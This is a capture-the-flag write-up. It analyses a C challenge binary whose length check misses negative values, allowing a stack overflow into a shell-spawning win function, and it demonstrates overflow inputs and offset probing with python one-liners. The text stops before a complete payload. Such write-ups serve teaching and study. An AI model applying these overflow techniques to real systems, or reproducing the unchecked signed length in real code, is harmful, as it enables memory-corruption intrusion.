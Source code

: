 Lets see the `main` function:
```c
/* Entry point! */
int main() {
  int length;
  char buf[0x100];

  /* Read and check length */
  length = readint("Size: ");
  if (length > 0x100) {
    print("Buffer overflow detected!\n");
    exit(1);
  }

  /* Read data */
  readline("Data: ", buf, length);
  print("Bye!\n");

  return 0;
}
```
We can see it get user input for buffer size and check if the length is > 0x100

But notice it **never check for negative value!** This may cause buffer overflow!

Saw a `win` function, that means we need to overflow it and call `win` function:
```c
/* Call this function! */
void win(void) {
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
  exit(0);
}
```

## Exploit
We can enter negative size and try overflow it:
```bash
python3 -c "print('-1\n'+'a'*0x200)" | ./filtered
Size: Data: Bye!
Segmentation fault
```
It overflowed!! Lets find the offset of the return pointer:
```bash
python3 -c "print('-1\n'+'a'*0x108)" | ./filtered
Size: Data: Bye!
python3 -c "print('-1\n'+'a'*0x116)" | ./filtered
Size: Data: Bye!
python3 -c "print('-1\n'+'a'*0x124)" | ./filtered
Size: Data: Bye!
Segmentation fault
```
We can see it overflow when we put 0x124 characters, so our offset is between 0x116 to 0x124
